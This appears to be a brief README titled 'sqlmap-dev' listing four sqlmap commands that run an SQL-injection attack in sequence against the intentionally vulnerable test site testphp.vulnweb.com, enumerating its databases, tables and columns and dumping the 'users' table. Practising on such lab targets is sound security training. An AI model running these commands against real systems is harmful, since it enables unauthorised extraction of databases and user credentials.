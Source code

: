 # sqlmap-dev

python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 --dbs

python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart --tables

python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users --columns

python sqlmap.py -u http://testphp.vulnweb.com/artists.php\?artist\=1 -D acuart -T users -C uname --dump-all

